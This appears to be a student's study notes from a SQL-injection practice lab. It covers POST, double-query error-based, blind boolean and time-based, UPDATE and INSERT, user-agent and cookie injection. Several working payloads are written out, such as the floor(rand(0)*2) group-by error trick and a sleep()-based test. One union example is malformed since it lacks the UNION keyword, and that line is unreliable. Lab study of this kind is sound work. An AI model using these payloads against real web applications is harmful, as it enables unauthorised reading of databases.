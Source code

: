 # POST SQLI

Here the methods are mostly the same but we're providing some data in an input field like username and password, like we're providing some data over post request usually from a form element.

In lesson 11 lets construct a query that the developer may have created

select username,password from users where username='$uname' and password='$password'

So when we give a payload like this -> ' select 1,database(),version() # in the username field the final query would be as follows

select username,password from users where username='' select 1,database(),version() #' and password='$password'

So the first select statement evaluates to false and the second select statement evaluates to true

Now, we can just get all the data we want since we now know the injection points


## Double query injection

Lesson 14

lets consider this query -> select concat('~',(select database()),'~',floor(rand(0)*2)) from information_schema.tables;

+------------------------------------------------------+
| concat('~',(select database()),'~',floor(rand(0)*2)) |
+------------------------------------------------------+
| ~test~0                                              |
| ~test~1                                              |
| ~test~1                                              |
| ~test~0                                              |
the table continues..(doubt)

Now consider this query 

" and (select 1 from (select count(*),(concat('~',(select database()),'~',floor(rand(0)*2)))c from information_schema.tables group by c)a) #

This query will dump us an error like this -> Duplicate entry '~security~1' for key 'group_key', (doubt)

hence we get the database name we can enumerate further from here by the various techniques that we have learned.


# Injection in update query


This is based on lesson 17 

The level is updating the password of an existing user a typical use of update query

So the query might look like this

update users set password='$userinput' and username '$userinput';

so since the website is not showing any sort of output here we have to rollback to using double query injection so our payload will look as follows

' and (select 1 from (select count(*),(concat('~',(select database()),'~',floor(rand(0)*2)))c from information_schema.tables group by c)a) #

Thus from here further extraction is possible.


# Blind Boolean and Time

based on lesson 16

Lets construct a basic query intended by the developer

select username,password from users where username=("$userinput") and password=("$userinput");

So a time based injection's payload would look like the following 

admin") and (select if(database()='security',sleep(2),null)) #


Similarily a payload in boolean blind would like the following

admin") and (select database()='security') #


And this could be combined with the boolean and time based payloads that we discussed in previous lessons to make powerful versions of the same.


# Injection in insert query

Here the injection is in the user agent field this is good to know as it would be helpful in some ctfs but i doubt it's of any practical application tho

Here the insert query is as follows
 
INSERT INTO `security`.`uagents` (`uagent`, `ip_address`, `username`) VALUES ('$uagent', '$IP', $uname);

This will only work for already logged in users tho 

Now using burp suite or some other intercepting tool we can modify the user agent, and we can give a double query payload to get the required information.


# Injection in cookie value.

based on lesson 20 and 21

Normal union error based injection  but here we are putting our payloads in the cookie field using some intercepting proxy like burp
